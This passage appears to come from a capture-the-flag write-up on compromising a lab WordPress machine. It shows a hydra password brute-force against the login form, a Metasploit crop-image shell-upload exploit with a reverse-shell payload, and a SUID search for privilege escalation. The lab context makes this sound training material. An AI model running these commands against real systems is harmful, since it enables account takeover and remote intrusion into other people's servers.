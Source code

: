 Let's try and brute-force kwheel's password. First we press F12 on your browser and go to the network tab of the developer tools, and enter some random password for 'kwheel'; We are interested in the post message of the web site. We get this post data:
```
log=kwheel&pwd=123&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1
```
Now we are going to use this into hydra:
```
$ hydra -l kwheel -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V

(...)

[80][http-post-form] host: 10.10.20.26   login: kwheel   password: <REDACTED>
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2020-07-11 11:34:37
```
Now we have the password for kwheel!

We could log in in the admin panel and take a look, but since we know that there is a metasploit script for our exploit, we'll proceed and open metasploit:

```
msf5 > search crop-image

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload


msf5 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(multi/http/wp_crop_rce) > 
```

Now just set the options (USERNAME, PASSWORD, RHOSTS, LHOST) and exploit!

We can run 'shell' now and take a look on what's going on inside the machine. We have two goals: the files user.txt and root.txt.
If we do a find on the machine:
```
$ find / 2>/dev/null | grep user.txt
/home/bjoel/user.txt
```
ok cool, BUT when we try and read it...
```
$ cat /home/bjoel/user.txt
You won't find what you're looking for here.

TRY HARDER
```
Ok. We can try a little bit harder. Let's search for SUID files for that sweet privesc!
```
find / -perm -u=s -type f 2>/dev/null
```
